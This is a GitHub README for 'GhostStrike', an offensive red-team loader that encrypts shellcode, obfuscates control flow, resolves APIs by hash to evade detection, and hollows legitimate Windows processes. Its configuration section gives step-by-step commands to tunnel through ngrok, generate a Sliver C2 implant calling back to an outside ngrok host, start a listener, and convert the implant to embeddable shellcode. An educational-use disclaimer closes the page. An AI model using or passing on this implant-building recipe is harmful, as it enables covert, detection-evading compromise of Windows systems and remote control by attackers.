 # GhostStrike ⚔️

**GhostStrike** is an advanced cybersecurity tool designed for Red Team operations, featuring sophisticated techniques to evade detection and perform process hollowing on Windows systems.

---

## ✨ Features

<ul>
    <li><strong>Dynamic API Resolution:</strong> Utilizes a custom hash-based method to dynamically resolve Windows APIs, avoiding detection by signature-based security tools.</li>
    <li><strong>Base64 Encoding/Decoding:</strong> Encodes and decodes shellcode to obscure its presence in memory, making it more difficult for static analysis tools to detect.</li>
    <li><strong>Cryptographic Key Generation:</strong> Generates secure cryptographic keys using Windows Cryptography APIs to encrypt and decrypt shellcode, adding an extra layer of protection.</li>
    <li><strong>XOR Encryption/Decryption:</strong> Simple but effective XOR-based encryption to protect the shellcode during its injection process.</li>
    <li><strong>Control Flow Flattening:</strong> Implements control flow flattening to obfuscate the execution path, complicating analysis by both static and dynamic analysis tools.</li>
    <li><strong>Process Hollowing:</strong> Injects encrypted shellcode into a legitimate Windows process, allowing it to execute covertly without raising suspicions.</li>
</ul>

---

## ⚙️ Configuration

You can configure GhostStrike with the following steps:

<ol>
    <li><strong>Create Ngrok Service:</strong> <code>ngrok tcp 443</code></li>
    <li><strong>Generate Sliver C2 Implant:</strong> <code>generate --mtls x.tcp.ngrok.io --save YourFile.exe</code></li>
    <li><strong>Create Listener:</strong> <code>mtls --lhost 0.0.0.0 --lport 443</code></li>
    <li><strong>Convert to .bin:</strong> <code>./donut -i /home/YourUser/YourFile.exe -a 2 -f 1 -o /home/YourUser/YourFile.bin</code></li>
    <li><strong>Convert to C++ Shellcode:</strong> <code>xxd -i YourFile.bin > YourFile.h</code></li>
    <li><strong>Import YourFile.h to this code</strong></li>
    <li><strong>Compile and enjoy! 🚀</strong></li>
</ol>

---

## 💻 Requirements

- **C++ Compiler:** Any modern C++ compiler, such as `g++`, `clang++`, or Visual Studio, is sufficient to compile the code.

No additional dependencies are needed to build **GhostStrike**. Simply compile the source code with your preferred C++ compiler, and you're ready to go!

---

## ⚠️ Disclaimer

<p>This tool is intended solely for educational purposes and for use in controlled environments. Unauthorized use of GhostStrike outside of these settings is strictly prohibited. The author, <strong>@Stiven.Hacker</strong>, takes no responsibility for any misuse or damage caused by this code.</p>

---

## 🎥 Demo

<p>Check out a live demonstration of GhostStrike in action on LinkedIn:</p>

<a href="https://www.linkedin.com/posts/stiven-mayorga_cybersecurity-ethicalhacking-pentesting-activity-7203583047705710593-IIVE?utm_source=share&utm_medium=member_ios" style="display: inline-block; padding: 10px 20px; font-size: 16px; color: #fff; background-color: #0a6dff; text-decoration: none; border-radius: 5px; margin-top: 20px;">Watch Demo</a>